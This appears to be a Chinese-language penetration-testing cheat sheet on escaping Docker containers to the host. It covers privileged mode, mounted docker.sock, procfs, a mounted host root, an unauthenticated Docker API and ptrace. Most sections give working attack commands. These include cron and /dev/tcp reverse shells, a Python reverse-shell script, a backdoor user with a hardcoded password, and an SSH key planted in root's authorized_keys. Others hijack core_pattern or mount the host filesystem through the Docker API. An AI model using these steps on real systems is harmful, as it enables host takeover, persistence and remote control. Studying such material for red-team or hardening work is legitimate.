

# Cloud Attack Surface - 云原生攻击面

## Container Escape - 容器逃逸

### 错误配置

#### Privileged特权容器逃逸

##### 利用条件

```shell
cat /proc/self/status | grep -qi "0000003fffffffff" && echo "Is privileged mode" || echo "Not privileged mode"
```


##### 攻击方法

###### 挂载逃逸

- 挂载磁盘

```shell
./cdk run mount-disk
```


> 获取宿主机权限

- 写计划任务反弹shell

```shell
# 查看容器IP
./cdk ifconfig
# 写入计划任务，把宿主机的shell反弹到容器
echo "* * * * * /bin/bash -i >& /dev/tcp/172.17.0.4/4444 0>&1" >> /tmp/cdk_F65GR/var/spool/cron/root
# 容器开启nc监听
./cdk -l -v -p 4444
```


- 创建后门账号

```shell
# 把创建后门账号脚本写到挂载目录下
echo 'useradd hack;echo -e "1qaz@WSX8888\n1qaz@WSX8888\n" |passwd hack' > /tmp/cdk_F65GR/add.sh
# 创建后门账号
chroot /tmp/cdk_F65GR bash add.sh
# ssh远程连接宿主机
ssh hack@172.17.0.1 -p 27845
```


- 写ssh公钥

```shell
ssh-keygen -t rsa
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCjV6m5Q6VdwGq95VV6U3TsmPFYr3WqQsGsrgg3NcmQFenmEH8tUOZFUnz8sjfs+CrD/1NZ5YXuKWeImpYWHrve0TYsHZREWane1kJdYVT5WjTWLONNZiHFTqCf077uKOErFPYKs7xCn50myNwJSr2BImTtMeJY5b5D0oa6kOZUs/wgUosZH6gwmmSk4ySQm4JWqEpXSKfzAxDA9rCojr/jDOu2Q7wvBRa/QiMKs1e6L18lgPqbV9imnbVgeBCFIiijWOVN1g1Kxo+UZ17dKue0d7Bzj4QHluWFDsrXNKN/9LNZSh8e+X/JAM8uB0K2LemTp0K/xly4TYWHVdHHwxTWp91rD85eH/YsJBDrRkqVmBL9QU1GNGOXh3wy7vc8DGrmEDdIkimhfruyUkepuL+QEHu21+lnLnqmNnE/g75p/J/mDqQFcE+YIo9B+7l8nN7obeOtiMCUKQeN24pAwB/q40Ioapfh1j4/a2wkVjkTkINqzgwmWu7WJQiGiQfyOvc= admin@LAPTOP-EF6SG7N1' > /tmp/cdk_F65GR/root/.ssh/authorized_keys
ssh -i C:\Users\admin\.ssh\id_rsa root@172.17.0.1 -p 27845
```


###### Cgroup逃逸

```shell
./cdk run mount-cgroup "hostname"
```


#### Socket挂载逃逸

##### 利用条件

- 查看是否存在docker.sock文件

```shell
ls /var/run/ | grep -qi docker.sock && echo "Docker Socket is mounted." || echo "Docker Socket is not mounted."
```


##### 攻击方法

- 安装docker命令行

```shell
apt-get update;apt-get install -y curl;curl -fsSL https://get.docker.com/ | sh
```

- 把宿主机目录挂载到新容器

```shell
docker run -it -v /:/host ubuntu /bin/bash
```

- 将根目录切换到宿主机目录

```shell
chroot /host cat /etc/hostname
```


#### Procfs目录挂载逃逸

##### 利用条件

```shell
find / -name core_pattern 2>/dev/null | wc -l | grep -q 2 && echo "Procfs is mounted." || echo "Procfs is not mounted."
```


##### 攻击方法

###### CDK反弹shell

```shell
./cdk run mount-procfs /mnt/host_proc/ "/bin/bash -i>& /dev/tcp/172.17.0.4/4444 0>&1"
```


###### PWN反弹shell

- 查找容器在宿主机的真实路径，根据下图所示，可判断容器路径为/var/lib/docker/overlay2/b26033b3ebed03b09d885d627234efbd6457e377159d44e42d590f1bb8a5dd09/merged

```shell
cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
```


- 编写一个反弹shell的脚本，反弹到容器，或攻击机

```python3
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.17.0.4"
lport = 4444
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   s.close()
if __name__ == "__main__":
   main()
```


- 把脚本所在路径写入到proc

```shell
echo -e "|/var/lib/docker/overlay2/b26033b3ebed03b09d885d627234efbd6457e377159d44e42d590f1bb8a5dd09/merged/shell.py" > /mnt/host_proc/sys/kernel/core_pattern
```


- 创建一个可崩溃的程序break.c，编译并执行

```shell
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
```



- 开启监听，反弹宿主机shell


#### 挂载宿主机根目录逃逸

##### 利用条件

```
find / -name passwd 2>/dev/null | grep /etc/passwd | wc -l | grep -q 7 && echo "Root directory is mounted." || echo "Root directory is not mounted."
```


##### 攻击方法

和挂载逃逸类似，略

#### Docker API 2375未授权访问

##### 利用条件

```shell
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && timeout 3 bash -c "echo >/dev/tcp/$IP/2375" > /dev/null 2>&1 && echo "Docker Remote API Is Enabled." || echo "Docker Remote API is Closed."
```


##### 攻击方法

- 把宿主机根目录挂载到新的容器

```shell
docker -H tcp://172.17.0.1:2375 run --rm -v /:/mnt nginx /bin/bash
docker -H tcp://172.17.0.1:2375 ps
docker -H tcp://172.17.0.1:2375 exec -it d11 bash
```


- 后续getshell方法和挂载逃逸类似，不做描述

#### Ptrace逃逸

##### 利用条件

```shell
./cdk run check-ptrace
```


##### 攻击方法

- 使用cs进行进程注入到宿主机

